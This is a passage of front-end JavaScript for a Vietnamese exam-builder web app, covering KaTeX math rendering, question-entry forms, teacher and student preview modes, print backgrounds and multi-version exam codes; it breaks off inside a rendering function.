// formatMathSymbols chay tai cho: quy cau truc 2 chieu (promoteStructuralMath)
// + lam dep ky hieu 1 hang o vung ngoai $...$; idempotent nen noi dung da
// luu chay lai vo hai, noi dung dang go cung ve dep ngay.
const MATH_SPAN_RE = /\$\$[^$]+\$\$|\$[^$]+\$/g;

function renderMathInline(container, text) {
  container.innerHTML = '';
  if (typeof text !== 'string' || !text) return;
  text = formatMathSymbols(text);

  let lastIndex = 0;
  let match;
  MATH_SPAN_RE.lastIndex = 0;
  while ((match = MATH_SPAN_RE.exec(text)) !== null) {
    if (match.index > lastIndex) {
      container.appendChild(document.createTextNode(text.slice(lastIndex, match.index)));
    }
    const block = match[0].startsWith('$$');
    renderKatexSpan(container, match[0].slice(block ? 2 : 1, block ? -2 : -1), block);
    lastIndex = MATH_SPAN_RE.lastIndex;
  }
  if (lastIndex < text.length) {
    container.appendChild(document.createTextNode(text.slice(lastIndex)));
  }
}

// innerHTML o day AN TOAN: noi dung la HTML do CHINH KaTeX sinh ra tu cu
// phap LaTeX (khong phai chuoi AI/nguoi dung duoc chen thang vao DOM). Voi
// trust:false + throwOnError:false, KaTeX tu ve node loi (mau do) va vo hieu
// hoa cac lenh sinh HTML/URL tuy y (\href, \includegraphics) - co che an
// toan chinh thuc cho render LaTeX khong tin cay (public-facing). Fallback
// (KaTeX chua tai xong / loi hi huu) = text da lam phang, KHONG dung CSS.
function renderKatexSpan(container, latex, displayMode = false) {
  const span = document.createElement('span');
  if (window.katex) {
    try {
      span.innerHTML = window.katex.renderToString(latex, {
        throwOnError: false, trust: false, strict: false, displayMode
      });
    } catch (e) {
      span.textContent = latexToPlainText(latex);
    }
  } else {
    span.textContent = latexToPlainText(latex);
  }
  container.appendChild(span);
}

const DIFFICULTY_LABEL = { NB: 'Nhận biết', TH: 'Thông hiểu', VD: 'Vận dụng', VDC: 'Vận dụng cao' };
const TYPE_LABEL = { MCQ: 'Trắc nghiệm', FILL_BLANK: 'Điền từ', TRUE_FALSE: 'Đúng/Sai', ESSAY: 'Tự luận' };

const state = {
  examId: null,
  archiveId: null, // exam_id trong kho de (SAVED_EXAM) - tach voi examId (bang EXAM cho link chia se)
  title: '',
  subject: '',
  duration_minutes: null,
  school_header: '',
  blocks: [],
  isStudentMode: false,
  zoom: 1,
  activeShareCode: null,
  examVersions: [],
  activeVersionIndex: -1,
  background: { enabled: false, file: '', opacity: 0.3 },
  template_binding: null
};

const versionContainers = new Map(); // code -> { el, blocks }

let formQuestions = [];
let formEditingIndex = null;
let lastGenerateSaveAt = 0; // thoi diem luu kho gan nhat tu nut "Sinh De" (xem applyGeneratedBlocks)

const examContainerEl = document.getElementById('examContainer');
const errorMessageEl = document.getElementById('errorMessage');

// ---------- Tabs ----------
document.querySelectorAll('.tab-btn').forEach(btn => {
  btn.addEventListener('click', () => {
    document.querySelectorAll('.tab-btn').forEach(b => b.classList.remove('active'));
    document.querySelectorAll('.tab-content').forEach(c => c.classList.remove('active'));
    btn.classList.add('active');
    document.getElementById(`tab-${btn.dataset.tab}`).classList.add('active');
    // Tab "auto" co nut sinh de rieng (autoGenerateBtn) vi thao tac bat dong
    // bo (goi LLM) khac han cac tab con lai - an nut "Sinh De Kiem Tra" chung
    // de tranh nham lan khi dang o tab nay.
    document.getElementById('generateBtn').classList.toggle('form-hidden', btn.dataset.tab === 'auto');
  });
});

// ---------- Nen PDF (background overlay khi in) ----------
const examPrintBgEl = document.getElementById('examPrintBg');
const bgEnableToggle = document.getElementById('bgEnableToggle');
const bgSelect = document.getElementById('bgSelect');
const bgOpacityRange = document.getElementById('bgOpacityRange');
const bgOpacityValue = document.getElementById('bgOpacityValue');

function applyBackgroundToPrintLayer() {
  const { enabled, file, opacity } = state.background;
  const active = enabled && !!file;
  examPrintBgEl.classList.toggle('enabled', active);
  if (active) {
    examPrintBgEl.style.backgroundImage = `url("/backgrounds/${encodeURIComponent(file)}")`;
    examPrintBgEl.style.opacity = String(opacity);
  } else {
    examPrintBgEl.style.backgroundImage = '';
  }
}

async function loadBackgroundList() {
  try {
    const res = await fetch('/api/backgrounds');
    const files = res.ok ? await res.json() : [];
    bgSelect.innerHTML = '<option value="">— Chọn ảnh nền —</option>' +
      files.map(f => `<option value="${f}">${f}</option>`).join('');
    if (files.length && !state.background.file) {
      state.background.file = files[0];
      bgSelect.value = files[0];
    }
  } catch {
    // Khong co nen PDF nao kha dung - giu dropdown rong, khong chan luong chinh.
  }
}
loadBackgroundList();

bgEnableToggle.addEventListener('change', () => {
  state.background.enabled = bgEnableToggle.checked;
  bgSelect.disabled = !bgEnableToggle.checked;
  bgOpacityRange.disabled = !bgEnableToggle.checked;
  applyBackgroundToPrintLayer();
});
bgSelect.addEventListener('change', () => {
  state.background.file = bgSelect.value;
  applyBackgroundToPrintLayer();
});
bgOpacityRange.addEventListener('input', () => {
  const pct = parseInt(bgOpacityRange.value, 10);
  state.background.opacity = pct / 100;
  bgOpacityValue.textContent = `${pct}%`;
  applyBackgroundToPrintLayer();
});

// ---------- Prompt reference section (Task 2 + bien the theo tung AI) ----------
// AI_PROMPT_VARIANTS (frontend/promptVariants.js, tu dong sinh tu AI_Prompts_Variants.txt):
// moi AI (Gemini/Gemini Pro/ChatGPT/DeepSeek/Claude/Grok) mot prompt rieng, dung chung quy tac dinh dang
// (nguon that su van la Gemini_Prompt_Unified.txt) nhung khac nhau o luu y rieng + vi du mon hoc.
const promptPlatformTabsEl = document.getElementById('promptPlatformTabs');
const promptPlatformHintEl = document.getElementById('promptPlatformHint');
const promptTextEl = document.getElementById('promptText');
const promptExampleTextEl = document.getElementById('promptExampleText');
const promptExampleHintEl = document.getElementById('promptExampleHint');

let activePromptVariant = AI_PROMPT_VARIANTS[0];

function renderActivePromptVariant() {
  promptPlatformHintEl.textContent = activePromptVariant.hint;
  promptTextEl.textContent = activePromptVariant.template;
  promptExampleTextEl.textContent = activePromptVariant.example;
  promptExampleHintEl.textContent =
    `Ví dụ chủ đề "${activePromptVariant.exampleTopic}" — có thể copy và dán thẳng vào tab "Dán văn bản" rồi bấm "Sinh Đề Kiểm Tra" để xem thử.`;
}

AI_PROMPT_VARIANTS.forEach((variant, i) => {
  const btn = document.createElement('button');
  btn.type = 'button';
  btn.className = 'platform-tab-btn' + (i === 0 ? ' active' : '');
  btn.textContent = variant.label;
  btn.addEventListener('click', () => {
    activePromptVariant = variant;
    promptPlatformTabsEl.querySelectorAll('.platform-tab-btn').forEach(b => b.classList.remove('active'));
    btn.classList.add('active');
    renderActivePromptVariant();
  });
  promptPlatformTabsEl.appendChild(btn);
});
renderActivePromptVariant();

let copyToastTimer = null;
function showCopyToast(msg) {
  const toast = document.getElementById('copyToast');
  toast.textContent = msg;
  toast.classList.add('show');
  clearTimeout(copyToastTimer);
  copyToastTimer = setTimeout(() => toast.classList.remove('show'), 2000);
}

async function copyTextToClipboard(text) {
  try {
    await navigator.clipboard.writeText(text);
    return true;
  } catch {
    const helper = document.createElement('textarea');
    helper.value = text;
    helper.style.position = 'fixed';
    helper.style.opacity = '0';
    document.body.appendChild(helper);
    helper.select();
    const ok = document.execCommand('copy');
    document.body.removeChild(helper);
    return ok;
  }
}

document.getElementById('copyPromptBtn').addEventListener('click', async () => {
  const ok = await copyTextToClipboard(activePromptVariant.template);
  showCopyToast(ok ? `✅ Đã sao chép prompt (${activePromptVariant.label}) vào clipboard!` : '❌ Không thể sao chép, hãy copy thủ công.');
});
document.getElementById('copyExampleBtn').addEventListener('click', async () => {
  const ok = await copyTextToClipboard(activePromptVariant.example);
  showCopyToast(ok ? `✅ Đã sao chép ví dụ (${activePromptVariant.label}) vào clipboard!` : '❌ Không thể sao chép, hãy copy thủ công.');
});

// ---------- Form tab ----------
const formQuestionType = document.getElementById('formQuestionType');
const formOptionsMCQ = document.getElementById('formOptionsMCQ');
const formFillBlankAnswer = document.getElementById('formFillBlankAnswer');
const formTrueFalseAnswer = document.getElementById('formTrueFalseAnswer');
const formDraftLines = document.getElementById('formDraftLines');

function updateFormFieldsVisibility() {
  const type = formQuestionType.value;
  formOptionsMCQ.classList.toggle('form-hidden', type !== 'MCQ');
  formFillBlankAnswer.classList.toggle('form-hidden', type !== 'FILL_BLANK');
  formTrueFalseAnswer.classList.toggle('form-hidden', type !== 'TRUE_FALSE');
  formDraftLines.classList.toggle('form-hidden', type !== 'ESSAY');
}
formQuestionType.addEventListener('change', updateFormFieldsVisibility);
updateFormFieldsVisibility();

const addFormQuestionBtn = document.getElementById('addFormQuestionBtn');
const cancelEditFormBtn = document.getElementById('cancelEditFormBtn');

addFormQuestionBtn.addEventListener('click', () => {
  const type = formQuestionType.value;
  const content = document.getElementById('formContent').value.trim();
  const difficulty = document.getElementById('formDifficulty').value;
  const explanation = document.getElementById('formExplanation').value.trim();

  if (!content) { showError('Vui lòng nhập nội dung đề bài.'); return; }

  const isEditing = formEditingIndex !== null;
  const q = {
    id: isEditing ? formQuestions[formEditingIndex].id : crypto.randomUUID(),
    question_type: type,
    content: formatMathSymbols(content),
    difficulty_level: difficulty,
    explanation: formatMathSymbols(explanation) || null,
    correct_answer: null,
    options: [],
    draft_lines_count: 0
  };

  if (type === 'MCQ') {
    const rows = document.querySelectorAll('#formOptionsMCQ .form-option-row');
    const options = [];
    rows.forEach(row => {
      const input = row.querySelector('.form-option-text');
      const text = input.value.trim();
      if (text) options.push({ option_key: input.dataset.key, option_text: formatMathSymbols(text), is_correct: false });
    });
    if (options.length < 2) { showError('Câu trắc nghiệm cần ít nhất 2 lựa chọn.'); return; }
    const correctKey = document.querySelector('input[name="formCorrectOption"]:checked').value;
    if (!options.some(o => o.option_key === correctKey)) {
      showError('Đáp án đúng phải khớp với 1 lựa chọn đã nhập nội dung.');
      return;
    }
    options.forEach(o => { o.is_correct = o.option_key === correctKey; });
    q.options = options;
    q.correct_answer = correctKey;
  } else if (type === 'FILL_BLANK') {
    const ans = formFillBlankAnswer.value.trim();
    if (!ans) { showError('Vui lòng nhập đáp án đúng.'); return; }
    q.correct_answer = formatMathSymbols(ans);
  } else if (type === 'TRUE_FALSE') {
    q.correct_answer = formTrueFalseAnswer.value;
  } else if (type === 'ESSAY') {
    q.draft_lines_count = Math.max(1, parseInt(formDraftLines.value, 10) || 5);
  }

  if (isEditing) {
    formQuestions[formEditingIndex] = q;
  } else {
    formQuestions.push(q);
  }
  exitEditMode();
  renderFormQuestionList();
  clearFormFields();
  hideError();
});

cancelEditFormBtn.addEventListener('click', () => {
  exitEditMode();
  clearFormFields();
  hideError();
});

function exitEditMode() {
  formEditingIndex = null;
  addFormQuestionBtn.textContent = '+ Thêm câu hỏi vào danh sách';
  cancelEditFormBtn.classList.add('form-hidden');
}

function loadQuestionIntoForm(index) {
  const q = formQuestions[index];
  formEditingIndex = index;

  formQuestionType.value = q.question_type;
  updateFormFieldsVisibility();
  document.getElementById('formDifficulty').value = q.difficulty_level;
  document.getElementById('formContent').value = q.content;
  document.getElementById('formExplanation').value = q.explanation || '';

  document.querySelectorAll('#formOptionsMCQ .form-option-text').forEach(i => { i.value = ''; });
  document.querySelector('input[name="formCorrectOption"][value="A"]').checked = true;
  if (q.question_type === 'MCQ') {
    q.options.forEach(o => {
      const input = document.querySelector(`#formOptionsMCQ .form-option-text[data-key="${o.option_key}"]`);
      if (input) input.value = o.option_text;
    });
    const radio = document.querySelector(`input[name="formCorrectOption"][value="${q.correct_answer}"]`);
    if (radio) radio.checked = true;
  } else if (q.question_type === 'FILL_BLANK') {
    formFillBlankAnswer.value = q.correct_answer || '';
  } else if (q.question_type === 'TRUE_FALSE') {
    formTrueFalseAnswer.value = q.correct_answer || 'Dung';
  } else if (q.question_type === 'ESSAY') {
    formDraftLines.value = q.draft_lines_count || 5;
  }

  addFormQuestionBtn.textContent = 'Cập nhật câu hỏi';
  cancelEditFormBtn.classList.remove('form-hidden');
  document.querySelector('.tab-btn[data-tab="form"]').scrollIntoView({ block: 'start', behavior: 'smooth' });
}

function renderFormQuestionList() {
  const list = document.getElementById('formQuestionList');
  list.innerHTML = '';
  formQuestions.forEach((q, i) => {
    const li = document.createElement('li');
    li.className = 'form-question-item';

    const info = document.createElement('div');
    info.className = 'form-question-item-info';
    const preview = q.content.length > 60 ? q.content.slice(0, 60) + '…' : q.content;
    info.innerHTML = `<strong>Câu ${i + 1} · ${TYPE_LABEL[q.question_type]} · ${DIFFICULTY_LABEL[q.difficulty_level]}</strong><span>${escapeHtml(preview)}</span>`;

    const actions = document.createElement('div');
    actions.className = 'form-question-item-actions';
    const editBtn = document.createElement('button');
    editBtn.type = 'button';
    editBtn.className = 'edit-btn';
    editBtn.textContent = 'Sửa';
    editBtn.addEventListener('click', () => loadQuestionIntoForm(i));
    const delBtn = document.createElement('button');
    delBtn.type = 'button';
    delBtn.className = 'delete-btn';
    delBtn.textContent = 'Xóa';
    delBtn.addEventListener('click', () => {
      formQuestions.splice(i, 1);
      if (formEditingIndex === i) { exitEditMode(); clearFormFields(); }
      else if (formEditingIndex !== null && i < formEditingIndex) { formEditingIndex -= 1; }
      renderFormQuestionList();
    });
    actions.appendChild(editBtn);
    actions.appendChild(delBtn);

    li.appendChild(info);
    li.appendChild(actions);
    list.appendChild(li);
  });
}

function clearFormFields() {
  document.getElementById('formContent').value = '';
  document.getElementById('formExplanation').value = '';
  document.querySelectorAll('#formOptionsMCQ .form-option-text').forEach(i => { i.value = ''; });
  document.querySelector('input[name="formCorrectOption"][value="A"]').checked = true;
  formFillBlankAnswer.value = '';
  formTrueFalseAnswer.value = 'Dung';
  formDraftLines.value = '5';
}

// ---------- Generate exam ----------
document.getElementById('generateBtn').addEventListener('click', async () => {
  hideError();
  const activeTab = document.querySelector('.tab-btn.active').dataset.tab;
  try {
    let blocks;
    if (activeTab === 'text') {
      const raw = document.getElementById('rawTextInput').value;
      blocks = new TextPromptParser().parse(raw);
    } else if (activeTab === 'upload') {
      const fileInput = document.getElementById('fileInput');
      const file = fileInput.files[0];
      if (!file) { showError('Vui lòng chọn 1 tệp để tải lên.'); return; }
      blocks = await new FileUploadParser().parseFile(file);
    } else {
      if (!formQuestions.length) {
        showError('Chưa có câu hỏi nào trong danh sách. Hãy thêm câu hỏi trước.');
        return;
      }
      const essayQs = formQuestions.filter(q => q.question_type === 'ESSAY');
      const otherQs = formQuestions.filter(q => q.question_type !== 'ESSAY');
      blocks = [];
      if (otherQs.length) blocks.push({ block_type: 'MULTIPLE_CHOICE', block_title: 'Phần I. Trắc nghiệm', questions: otherQs });
      if (essayQs.length) blocks.push({ block_type: 'ESSAY', block_title: 'Phần II. Tự luận', questions: essayQs });
    }

    applyGeneratedBlocks(blocks);
  } catch (err) {
    showError(err.message);
  }
});

// Dung chung cho ca 4 tab (text/upload/form/auto): gan blocks da parse/sinh
// ra vao state va ve lai Preview - tach rieng de tab "auto" (sinh qua LLM,
// bat dong bo) khong phai lap lai logic nay.
function applyGeneratedBlocks(blocks) {
  ensureIds(blocks);
  shuffleAllMCQOptions(blocks);
  state.blocks = blocks;
  state.title = document.getElementById('examTitleInput').value.trim() || 'Đề kiểm tra';
  state.subject = document.getElementById('examSubjectInput').value.trim();
  state.duration_minutes = parseInt(document.getElementById('examDurationInput').value, 10) || null;
  state.school_header = document.getElementById('examSchoolInput').value.trim();
  state.examId = null;
  state.template_binding = null;

  clearExamVersions();
  renderExam();
  toggleActionButtons(true);
  document.getElementById('generateMultiCodeBtn').disabled = false;

  // Bam "Sinh De" lai trong vong 30 giay -> coi la tinh chinh cung 1 de, cap
  // nhat ban ghi kho cu (khong tao dong moi). Sau 30 giay -> de moi.
  if (!state.archiveId || Date.now() - lastGenerateSaveAt > 30000) {
    state.archiveId = null;
  }
  lastGenerateSaveAt = Date.now();
  scheduleArchiveSave({ immediate: true });
}

// Template workspace hands off a completed snapshot to the existing editor.
window.addEventListener('exambuilder:open-template', event => {
  const detail = event.detail || {};
  if (!Array.isArray(detail.blocks)) return;
  document.getElementById('examTitleInput').value = detail.title || '';
  document.getElementById('examSubjectInput').value = detail.subject || '';
  document.getElementById('examDurationInput').value = detail.duration_minutes || '';
  document.getElementById('examSchoolInput').value = detail.school_header || '';
  state.archiveId = null;
  applyGeneratedBlocks(structuredClone(detail.blocks));
  state.template_binding = detail.template_binding || null;
  scheduleArchiveSave({ immediate: true });
});

function ensureIds(blocks) {
  blocks.forEach(b => {
    b.id = b.id || crypto.randomUUID();
    b.questions.forEach(q => { q.id = q.id || crypto.randomUUID(); });
  });
}

// TASK E: de cu (nap tu DB / dong bo Gist / link chia se) da bi ban cu cua
// formatMathSymbols lam phang "√80", "1/2"... -> quy lai ve $...$ LaTeX ngay
// khi nap vao editor. formatMathSymbols idempotent nen chay tren de moi cung
// vo hai; lan auto-save ke tiep se ghi de ban da nang cap.
function normalizeExamMath(blocks) {
  if (!Array.isArray(blocks)) return blocks;
  blocks.forEach(b => (b.questions || []).forEach(q => {
    if (q.content) q.content = formatMathSymbols(q.content);
    if (q.explanation) q.explanation = formatMathSymbols(q.explanation);
    if (q.correct_answer) q.correct_answer = formatMathSymbols(q.correct_answer);
    (q.options || []).forEach(o => { if (o.option_text) o.option_text = formatMathSymbols(o.option_text); });
  }));
  return blocks;
}

// ---------- Render ----------
// renderExamInto/renderQuestionCard/... nhan `ctx = { blocks, rerender }` de
// dung chung duoc cho ca de goc (examContainerEl + state.blocks) lan tung
// ma de sinh ra o Task 3 (moi ma de co container + mang blocks rieng, nhung
// van dung chung logic hien thi/sua truc tiep/xoa cau hoi).
function renderExamInto(container, meta, ctx) {
  container.innerHTML = '';
  container.classList.toggle('student-mode', state.isStudentMode);

  if (!ctx.blocks.length) {
    container.innerHTML = '<p class="empty-hint">Chưa có đề thi nào. Hãy nhập dữ liệu ở bảng bên trái và bấm "Sinh Đề Kiểm Tra".</p>';
    return;
  }

  if (meta.codeLabel) {
    const codeLabelEl = document.createElement('div');
    codeLabelEl.className = 'exam-version-code-label';
    codeLabelEl.textContent = `Mã đề: ${meta.codeLabel}`;
    container.appendChild(codeLabelEl);
  }

  const titleBlock = document.createElement('div');
  titleBlock.className = 'exam-title-block';
  const subParts = [];
  if (meta.subject) subParts.push(meta.subject);
  if (meta.duration_minutes) subParts.push(`Thời gian: ${meta.duration_minutes} phút`);
  titleBlock.innerHTML = `
    ${meta.school_header ? `<p class="school-header">${escapeHtml(meta.school_header)}</p>` : ''}
    <h2 class="exam-title">${escapeHtml(meta.title || 'Đề kiểm tra')}</h2>
    ${subParts.length ? `<p class="exam-sub">${escapeHtml(subParts.join(' • '))}</p>` : ''}
  `;
  container.appendChild(titleBlock);

  let questionNo = 0; // danh so lien tuc 1..N cho ca de (chuan de in, khop ban Android)
  ctx.blocks.forEach((block, bi) => {
    const blockEl = document.createElement('div');
    blockEl.className = 'question-block';
    const titleEl = document.createElement('div');
    titleEl.className = 'question-block-title';
    titleEl.textContent = block.block_title || (block.block_type === 'ESSAY' ? 'Phần Tự luận' : 'Phần Trắc nghiệm');
    blockEl.appendChild(titleEl);

    block.questions.forEach((q, qi) => {
      questionNo += 1;
      blockEl.appendChild(renderQuestionCard(q, bi, qi, ctx, questionNo));
    });

    container.appendChild(blockEl);
  });
}

function renderExam() {
  renderExamInto(examContainerEl, state, { blocks: state.blocks, rerender: renderExam });
}

function renderVersionContainer(version, el) {
  const meta = {
    title: state.title,
    subject: state.subject,
    duration_minutes: state.duration_minutes,
    school_header: state.school_header,
    codeLabel: version.code
  };
  const ctx = { blocks: version.blocks, rerender: () => renderVersionContainer(version, el) };
  renderExamInto(el, meta, ctx);
}

function renderQuestionCard(q, bi, qi, ctx, displayNo) {
  const card = document.createElement('div');
  card.className = 'question-card';

  const head = document.createElement('div');
  head.className = 'question-head';

  const contentWrap = document.createElement('div');
  contentWrap.className = 'question-content';
  const numberSpan = document.createElement('span');
  numberSpan.className = 'question-number';
  numberSpan.textContent = `Câu ${displayNo != null ? displayNo : qi + 1}: `;
  numberSpan.title = 'Bấm để phóng to / thu gọn câu này';
  numberSpan.addEventListener('click', () => {
    const opened = card.classList.toggle('expanded');
    if (opened) {
      card.scrollIntoView({ block: 'nearest', behavior: 'smooth' });
      const exBox = card.querySelector('.explanation-box');
      if (exBox && q.explanation) renderExplanationInline(exBox, q.explanation);
    }
  });
  contentWrap.appendChild(numberSpan);

  const contentEditable = document.createElement('span');
  renderMathInline(contentEditable, q.content);
  contentEditable.contentEditable = String(!state.isStudentMode);
  contentEditable.addEventListener('focus', () => { contentEditable.textContent = q.content; });
  contentEditable.addEventListener('input', () => { q.content = contentEditable.textContent; });
  contentEditable.addEventListener('blur', () => {
    q.content = formatMathSymbols(contentEditable.textContent);
    renderMathInline(contentEditable, q.content);
  });
  contentWrap.appendChild(contentEditable);
  head.appendChild(contentWrap);

  const badge = document.createElement('span');
  badge.className = `badge badge-${q.difficulty_level} teacher-only`;
  badge.textContent = DIFFICULTY_LABEL[q.difficulty_level] || '';
  head.appendChild(badge);

  if (!state.isStudentMode) {
    const actions = document.createElement('div');
    actions.className = 'question-actions';
    const delBtn = document.createElement('button');
    delBtn.type = 'button';
    delBtn.className = 'delete-question-btn';
    delBtn.textContent = 'Xóa';
    delBtn.addEventListener('click', () => {
      ctx.blocks[bi].questions.splice(qi, 1);
      ctx.rerender();
      if (ctx.blocks === state.blocks) scheduleArchiveSave();
    });
    actions.appendChild(delBtn);
    head.appendChild(actions);
  }

  card.appendChild(head);

  if (q.question_type === 'MCQ') card.appendChild(renderMCQBody(q, ctx));
  else if (q.question_type === 'TRUE_FALSE') card.appendChild(renderTrueFalseBody(q));
  else if (q.question_type === 'FILL_BLANK') card.appendChild(renderFillBlankBody(q));
  else if (q.question_type === 'ESSAY') card.appendChild(renderEssayBody(q, ctx));

  if (!state.isStudentMode) {
    const expl = document.createElement('div');
    expl.className = 'explanation-box teacher-only';
    expl.contentEditable = 'true';
    expl.dataset.placeholder = 'Nhập lời giải thích / gợi ý...';
    if (q.explanation) renderExplanationInline(expl, q.explanation);
    else expl.textContent = expl.dataset.placeholder;
    expl.addEventListener('focus', () => {
      // Khi sua: hien text phang 1 khoi (khong tach dong) cho de go.
      expl.textContent = expl.textContent === expl.dataset.placeholder ? '' : (q.explanation || '');
    });
    expl.addEventListener('blur', () => {
      if (!expl.textContent.trim()) { q.explanation = ''; expl.textContent = expl.dataset.placeholder; return; }
      q.explanation = formatMathSymbols(expl.textContent);
      renderExplanationInline(expl, q.explanation);
    });
    expl.addEventListener('input', () => { q.explanation = expl.textContent === expl.dataset.placeholder ? '' : expl.textContent; });
    card.appendChild(expl);
  }

  return card;
}

// Ve lời giải: moi cau (ket thuc bang dau cham + khoang trang) xuong 1 dong
// rieng cho de doc. Cac cum $...$ duoc che tam de dau "." ben trong cong thuc
// khong bi coi la het cau; so thap phan "3.14" / dau nhan ngam "α.cos" khong
// co khoang trang sau nen cung khong bi cat.
const EXPL_MATH_MASK = /\$\$[^$]+\$\$|\$[^$]*\$/g;
const EXPL_SENTENCE_SPLIT = /(?<=\.)\s+(?=\S)/;
function renderExplanationInline(container, text) {
  container.innerHTML = '';
  if (typeof text !== 'string' || !text.trim()) return;

  const spans = [];
  const masked = text.replace(EXPL_MATH_MASK, (s) => `[[MATH${spans.push(s) - 1}]]`);
  const sentences = masked.split(EXPL_SENTENCE_SPLIT).map(s => s.trim()).filter(Boolean);

  sentences.forEach(sen => {
    const line = document.createElement('div');
    line.className = 'explanation-line';
    renderMathInline(line, sen.replace(/\[\[MATH(\d+)\]\]/g, (_, i) => spans[+i]));
    container.appendChild(line);
  });
}

function renderMCQBody(q, ctx) {
  const list = document.createElement('ul');
  list.className = 'options-list';
  q.options.forEach(opt => {
    const li = document.createElement('li');
    li.className = 'option-row' + (opt.is_correct && !state.isStudentMode ? ' is-correct' : '');

    const key = document.createElement('span');
    key.className = 'option-key';
    key.textContent = opt.option_key + '.';
    li.appendChild(key);

    const text = document.createElement('span');
    text.className = 'option-text';
    renderMathInline(text, opt.option_text);
    text.contentEditable = String(!state.isStudentMode);
    text.addEventListener('focus', () => { text.textContent = opt.option_text; });
    text.addEventListener('input', () => { opt.option_text = text.textContent; });
    text.addEventListener('blur', () => {
      opt.option_text = formatMathSymbols(text.textContent);
      renderMathInline(text, opt.option_text);
    });
    li.appendChild(text);

    if (!state.isStudentMode) {
      const markBtn = document.createElement('button');
      markBtn.type = 'button';
      markBtn.className = 'teacher-only';
      markBtn.textContent = opt.is_correct ? '✓ Đúng' : 'Đánh dấu đúng';
      markBtn.addEventListener('click', () => {
        q.options.forEach(o => { o.is_correct = false; });
        opt.is_correct = true;
        q.correct_answer = opt.option_key;
        ctx.rerender();
        if (ctx.blocks === state.blocks) scheduleArchiveSave();
      });
      li.appendChild(markBtn);
    }

    list.appendChild(li);
  });
  return list;
}

function renderTrueFalseBody(q) {
  const wrap = document.createElement('div');
  if (!state.isStudentMode) {
    const select = document.createElement('select');
    select.className = 'true-false-answer teacher-only';
    ['Dung', 'Sai'].forEach(v => {
      const opt = document.createElement('option');
      opt.value = v;
      opt.textContent = v === 'Dung' ? 'Đúng' : 'Sai';
      if (q.correct_answer === v) opt.selected = true;
      select.appendChild(opt);
    });
    const printSpan = document.createElement('span');
    printSpan.className = 'true-false-answer-print teacher-only';
    printSpan.textContent = `Đáp án: ${q.correct_answer === 'Dung' ? 'Đúng' : 'Sai'}`;
    select.addEventListener('change', () => {
      q.correct_answer = select.value;
      printSpan.textContent = `Đáp án: ${select.value === 'Dung' ? 'Đúng' : 'Sai'}`;
    });
    wrap.appendChild(select);
    wrap.appendChild(printSpan);
  } else {
    const p = document.createElement('p');
    p.className = 'tf-choices';
    p.textContent = '☐ Đúng      ☐ Sai';
    wrap.appendChild(p);
  }
  return wrap;
}

function renderFillBlankBody(q) {
  const wrap = document.createElement('div');
  if (!state.isStudentMode) {
    const p = document.createElement('p');
    p.className = 'fill-blank-answer teacher-only';
    p.append('Đáp án: ');
    const ans = document.createElement('span');
    ans.contentEditable = 'true';
    // Giong content/explanation: hien LaTeX tho khi dang go (focus), hien
    // ban da render dep (KaTeX/radical) khi roi khoi o (blur) - can thiet
    // tu khi formatMathSymbols giu nguyen $...$ (truoc day chi la Unicode
    // phang nen hien textContent don gian van du dep).
    renderMathInline(ans, q.correct_answer || '');
    ans.addEventListener('focus', () => { ans.textContent = q.correct_answer || ''; });
    ans.addEventListener('input', () => { q.correct_answer = ans.textContent; });
    ans.addEventListener('blur', () => {
      q.correct_answer = formatMathSymbols(ans.textContent);
      renderMathInline(ans, q.correct_answer);
    });
    p.appendChild(ans);
    wrap.appendChild(p);
  } else {
    const p = document.createElement('p');
    p.textContent = 'Trả lời: ....................................';
    wrap.appendChild(p);
  }
  return wrap;
}

function renderEssayBody(q, ctx) {
  const wrap = document.createElement('div');
  const linesWrap = document.createElement('div');
  linesWrap.className = 'essay-draft-lines';
  const count = q.draft_lines_count || 0;
  for (let i = 0; i < count; i++) {
    const line = document.createElement('div');
    line.className = 'draft-line';
    linesWrap.appendChild(line);
  }
  wrap.appendChild(linesWrap);

  if (!state.isStudentMode) {
    const control = document.createElement('div');
    control.className = 'draft-lines-control teacher-only';
    const label = document.createElement('label');
    label.textContent = 'Số dòng nháp:';
    const input = document.createElement('input');
    input.type = 'number';
    input.min = '0';
    input.value = count;
    input.addEventListener('change', () => {
      q.draft_lines_count = Math.max(0, parseInt(input.value, 10) || 0);
      ctx.rerender();
    });
    control.appendChild(label);
    control.appendChild(input);
    wrap.appendChild(control);
  }
  return wrap;
}

// ---------- Toolbar: student mode, zoom ----------
document.getElementById('studentModeToggle').addEventListener('change', (e) => {
  state.isStudentMode = e.target.checked;
  renderExam();
  state.examVersions.forEach(version => {
    const el = versionContainers.get(version.code);
    if (el) renderVersionContainer(version, el);
  });
});

document.getElementById('zoomInBtn').addEventListener('click', () => setZoom(state.zoom + 0.1));
document.getElementById('zoomOutBtn').addEventListener('click', () => setZoom(state.zoom - 0.1));

function setZoom(value) {
  state.zoom = Math.min(2, Math.max(0.6, Math.round(value * 100) / 100));
  document.getElementById('previewPanel').style.setProperty('--font-scale', state.zoom);
  document.getElementById('zoomLevelLabel').textContent = `${Math.round(state.zoom * 100)}%`;
}

// ---------- Multi-code exam generator (Task 3) ----------
const multiCodeToggle = document.getElementById('multiCodeToggle');
const multiCodeBody = document.getElementById('multiCodeBody');
multiCodeToggle.addEventListener('click', () => {
  const isOpen = multiCodeBody.classList.toggle('open');
  multiCodeToggle.setAttribute('aria-expanded', String(isOpen));
  // Panel nam trong khu cuon rieng (input-panel) nen khi mo ra co the bi
  // tran khoi vung nhin - tu cuon de nguoi dung thay ngay nut "Tao Ma De"
  // ma khong phai tu tim thanh cuon.
  if (isOpen) {
    const panel = document.getElementById('inputPanel');
    panel.scrollTo({ top: panel.scrollHeight, behavior: 'smooth' });
  }
});

function clearExamVersions() {
  state.examVersions = [];
  state.activeVersionIndex = -1;
  versionContainers.clear();
  document.getElementById('codeTabs').innerHTML = '';
  document.getElementById('multiCodeSummary').textContent = '';
  const wrap = document.getElementById('examVersionsWrap');
  if (wrap) wrap.remove();
  examContainerEl.classList.remove('exam-container-hidden');
}

function statsRangeText(versions) {
  const types = ['MCQ', 'TRUE_FALSE', 'FILL_BLANK', 'ESSAY'];
  const labels = { MCQ: 'TN', TRUE_FALSE: 'Đúng/Sai', FILL_BLANK: 'Điền từ', ESSAY: 'Tự luận' };
  return types
    .map(t => {
      const vals = versions.map(v => v.stats[t]);
      const min = Math.min(...vals);
      const max = Math.max(...vals);
      if (min === 0 && max === 0) return null;
      return `${labels[t]}: ${min === max ? min : `${min}–${max}`}`;
    })
    .filter(Boolean)
    .join(', ');
}

function renderExamVersions() {
  versionContainers.clear();
  const codeTabsEl = document.getElementById('codeTabs');
  codeTabsEl.innerHTML = '';

